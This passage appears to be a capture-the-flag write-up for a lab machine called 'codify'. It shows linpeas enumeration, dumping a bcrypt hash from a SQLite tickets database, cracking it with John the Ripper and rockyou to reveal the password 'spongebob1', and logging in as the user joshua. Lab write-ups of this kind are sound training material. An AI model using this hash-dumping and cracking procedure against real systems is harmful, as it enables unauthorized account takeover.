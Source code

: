 ```bash 
drwx------ 2 svc    svc    4096 Sep 12 17:13 .cache
drwxrwxr-x 5 svc    svc    4096 Jan 13 22:37 .pm2
-rw-r--r-- 1 svc    svc     807 Sep 12 17:10 .profile
-rw-r--r-- 1 svc    svc       0 Jan 14 05:28 pwned
-rw-r--r-- 1 svc    svc      39 Sep 26 10:00 .vimrc
```

## PRIV ESCALATION TO JOSHUA

We upload linpeas to cofiy and we run it. The output provide value information like an interesting database, tickets.db.

Running **file tickets.db** we find out that this DB is a  sqlite database.

We download it to our local machine and we open it with sqlite3

```bash 
sqlite> .tables
tickets  users  
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
sqlite> 
```

**We get the hash of joshua user:**
"\$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2"

"\$2a\$"

 is indicator of a  bcrypt format, so let’s see if joshua user has a weak password and then we are able to crack it:

```bash 
└─# john -format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:02 0.00% (ETA: 2024-02-03 13:40) 0g/s 8.571p/s 8.571c/s 8.571C/s ashley..111111
spongebob1       (?)     
1g 0:00:02:47 DONE (2024-01-14 16:49) 0.005985g/s 8.062p/s 8.062c/s 8.062C/s 
```

The attack based on the rockyou dictionary worked, and now is time  to connect to the victim machine using joshua credentials

```bash 
joshua@codify:~$ whoami
joshua
joshua@codify:~$ ls -la
total 40
drwxrwx--- 4 joshua joshua 4096 Jan 13 22:54 .
drwxr-xr-x 4 joshua joshua 4096 Sep 12 17:10 ..
-rw-rw-r-- 1 joshua joshua  515 Jan 13 22:54 123.py
lrwxrwxrwx 1 root   root      9 May 30  2023 .bash_history -> /dev/null
-rw-r--r-- 1 joshua joshua  220 Apr 21  2023 .bash_logout
-rw-r--r-- 1 joshua joshua 3771 Apr 21  2023 .bashrc
drwx------ 2 joshua joshua 4096 Sep 14 14:44 .cache
drwxrwxr-x 3 joshua joshua 4096 Jan 13 22:54 .local
-rw-r--r-- 1 joshua joshua  807 Apr 21  2023 .profile
-rw-r----- 1 root   joshua   33 Jan 13 22:37 user.txt
-rw-r--r-- 1 joshua joshua   39 Sep 14 14:45 .vimrc
joshua@codify:~$
```
